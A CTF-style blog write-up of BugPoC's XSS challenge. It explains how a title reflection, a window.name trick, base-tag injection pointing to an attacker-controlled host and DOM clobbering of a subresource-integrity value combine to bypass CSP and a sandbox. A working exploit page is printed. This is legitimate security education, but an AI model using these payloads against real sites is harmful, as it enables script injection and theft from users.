 ```yaml
---
layout: post
title:  "BugPoC's XSS Challenge Writeup"
date:   2020-11-09 11:09:00 +0545
author: machinexa
image: /writeups/assets/images/xsschallenge.jpeg
category: Writeups
---
```


## Description
From the time of the announcement, I was excited about the new challenge from BugPoC. The challenge was to pop alert box with origin as text, bypassing CSP, and sandboxed iframe. Also, the alert must work in the latest version of Chrome only. I started solving immediately after the challenge was released. The challenge URL is:  [wacky.buggywebsite.com](https://wacky.buggywebsite.com/)

### Finding Reflection
So, my first task was to find reflection or DOM XSS sink. Visiting the site, the first thing I noticed was the webpage was only available for Chrome, so I opened it in Chromium. Here's what it looked like: 

![Homepage](/writeups/assets/images/xsschallenge_homepage.png)

I tried writing some text and it was successfully reflected. I immediately tried some tags but nope it didn't work. The regex was replacing `&*<>%` characters with a blank string. The thing to note was that it was reflected as `<iframe src="frame.html?param=Hello, World!" name="iframe">`  

I thought about injecting event handler and attributes like srcdoc but I don't think any will work because popping alert won't be easy, will it?
Besides, I found about frame.html from the reflection so I started to analyze its source code. There were lots of scripts and the one that was important was:
```js
window.fileIntegrity = window.fileIntegrity || {
	'rfc' : ' https://w3c.github.io/webappsec-subresource-integrity/',
	'algorithm' : 'sha256',
	'value' : 'unzMI6SuiNZmTzoOnV4Y9yqAjtSOgiIgyrKvumYRI6E=',
	'creationtime' : 1602687229
}

// verify we are in an iframe
if (window.name == 'iframe') {
	// securely load the frame analytics code
	if (fileIntegrity.value) {
		// create a sandboxed iframe
		analyticsFrame = document.createElement('iframe');
		analyticsFrame.setAttribute('sandbox', 'allow-scripts allow-same-origin');
		analyticsFrame.setAttribute('class', 'invisible');
		document.body.appendChild(analyticsFrame);

		// securely add the analytics code into iframe
		script = document.createElement('script');
		script.setAttribute('src', 'files/analytics/js/frame-analytics.js');
		script.setAttribute('integrity', 'sha256-'+fileIntegrity.value);
		script.setAttribute('crossorigin', 'anonymous');
		analyticsFrame.contentDocument.body.appendChild(script);
	}
} else {
	...
}
```
<br>
The first thing I tried was to change the window.name to "iframe" from dev tools, then refresh the page. You might think it's self XSS as user interaction is required but it is not:

![window.name](/writeups/assets/images/xsschallenge_windowname.png)

It is a special global variable because it is persistent across cross-domain. Thus, an attacker can change the variable, and it will be available even after refreshing or visiting a new page. After checking its source, we got 2 reflections and 1 partial reflection. The important was unsanitized input reflected in `<title>` while the rest were either useless or sanitized.

### Bypassing CSP and SRI
After getting unsanitized reflection, I tried to escape from the title then pop alert. I used this payload `</title><script>alert(1)</script>` but unfortunately, the Chrome's great CSP blocked it. Using CSP evaluator from Google, I found out this CSP was faulty. The following message caught my attention:
```
Missing base-uri allows the injection of base tags. They can be used to set the base URL for all relative (script) URLs to an attacker-controlled domain. Can you set it to 'none' or 'self'?
```
<br>
Injecting the `<base>` tag will cause the script to be fetched from an attacker-controlled domain, thus executing arbitrary javascript. If you remember the code above, there is actually a script tag that fetches `frame-analytics.js`. Everything was ready for my plan and I was hoping for an alert but nope. After injection, the only thing I got was another error which got me frustrated.  

![Integrity error](/writeups/assets/images/xsschallenge_sri.png)

It was an integrity error which is related to SRI (Sub Resource Integrity), which protects against compromised script sources. In nutshell, it's a hash of the entire javascript file. There was no way I could generate the same hash, and a collision was impossible as the browser only supports collision resistant hashes. However, if I could change `window.fileIntegrity.value`, maybe I could set the value to the hash of my file.  

Searching more and more, I found out id and value attribute of `<input>` directly affects javascript variables. So, I used the following script: 
```html
<script>
window.name = "iframe";
payload = encodeURI('</title><base href="https://wzqkyz5l1054.redir.bugpoc.ninja/"><input id="fileIntegrity" value="3ZRbpxB3ZH9LPg3CX6ZGzidaPOFZOSpeK06lI1eZOLE=">');
window.location = "https://wacky.buggywebsite.com/frame.html?param=" + payload; //
</script>
```
And guess what happened? I got another error :rage:

### Magical alert box
Since, allow-modals wasn't set I tried experimenting with different frames and window objects. By default, Chrome blocks call to alert in the sandboxed environment ([Blocked modal dialogs](https://googlechrome.github.io/samples/block-modal-dialogs-sandboxed-iframe/)). Searching for a bypass, I didn't get anything useful, however, it was very easy to bypass, I just needed to alert on the upper frame. For that I used, `window.top.alert()`.  

Finally, the moment I was waited for after trying for so long came. I got the **magical alert box**, it was truly amazing. 

![Magical alert box](/writeups/assets/images/xsschallenge_alert.png)


## Takeaway 

* When going for XSS, search for as much reflection and sink as you can.
* Make sure to always review CSP policies. 
* Never stop learning, you find something new each day. 

The challenge was awesome, and I loved it. I also learned a lot of new things. Also, thanks to:
* BugPoC and Amazon for hosting and sponsoring the challenge.
* LiveOverflow for an awesome window.name trick
* Naina for teaching me about weird javascript techniques.

By the way, if you haven't watched [Liveoverflow's video](https://www.youtube.com/watch?v=L1RvK1443Yw&t=307s), go watch it now.
